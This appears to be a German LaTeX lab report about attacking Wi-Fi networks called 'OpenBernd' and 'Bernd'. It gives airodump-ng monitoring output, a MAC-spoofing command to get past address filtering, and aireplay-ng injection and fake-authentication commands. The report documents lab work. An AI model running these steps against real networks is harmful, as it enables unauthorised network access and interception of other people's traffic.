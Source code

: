 \documentclass[10pt,a4paper]{article}
\begin{document}
Mittels \texttt{airodump-ng -w output mon8} beobachteten wir den WLAN Netzwerkverkehr. Das Interface \texttt{mon8} war das Zugangsinterface zum Interface \texttt{wlan1} im Monitormode. Die folgende Zeile fiel aus dabei auf. Ein Gerät mit der MAC Adresse \texttt{00:C0:CA:55:54:5C} hat sich versucht am Netzwerk \texttt{OpenBernd} anzumelden.
\begin{small}
\begin{verbatim}
Station MAC, First time seen, Last time seen, Power, # packets, BSSID, Probed ESSIDs
....
00:C0:CA:55:54:5C, 2013-11-11 16:39:42, 2013-11-11 16:39:42, -61,        1, 64:70:02:1C:4F:3A, OpenBernd
...
\end{verbatim}
\end{small}
Nach dem wir mittels \texttt{ip link set dev wlan1 address 00:C0:CA:55:54:5C} die MAC Adresse unseres Interface \texttt{wlan1} geändert hatten, konnten wir uns mit dem Netz \texttt{OpenBernd} verbinden.

\subsection{Angriff auf Bernd}


Als erstes haben wir mit dem folgenden Kommando überprüft, ob wir in das Netzwerk Bernd Packete injizieren können.
\begin{verbatim}
aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1
\end{verbatim}
Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels eine Fakeauthentifizierung durch.
\begin{verbatim}
aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1
\end{verbatim}
Dannach schnitten wir alle Packete im Netzwerk mit:
\begin{verbatim}
airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1
\end{verbatim}
\end{document}
